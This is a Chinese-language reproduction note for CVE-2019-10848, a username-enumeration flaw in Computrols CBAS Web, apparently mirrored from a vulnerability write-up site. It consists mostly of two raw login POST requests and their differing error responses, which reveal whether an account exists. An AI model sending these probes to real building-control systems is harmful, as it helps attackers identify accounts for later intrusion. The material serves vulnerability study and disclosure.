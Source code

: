 # （CVE-2019-10848）Computrols CBAS Web 用户名枚举

> 原文：[http://book.iwonder.run/0day/Computrols CBAS Web/3.html](http://book.iwonder.run/0day/Computrols CBAS Web/3.html)

## 一、漏洞简介

## 二、漏洞影响

19.0.0 及以下

## 三、复现过程

### 测试无效用户：

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1

username=randomuser&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62 
```

Response

```
<!-- Failed login comments appear here -->
<p class="alert-error">randomuser</p> 
```

### 测试有效用户：

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1

username=admin&password=&challenge=6e4344e7ac62520dba82d7f20ccbd422&response=e09aab669572a8e4576206d5c14befc5s 
```

Response

```
<!-- Failed login comments appear here -->
<p class="alert-error">Invalid username/password combination.  Please try again!</p> 
```

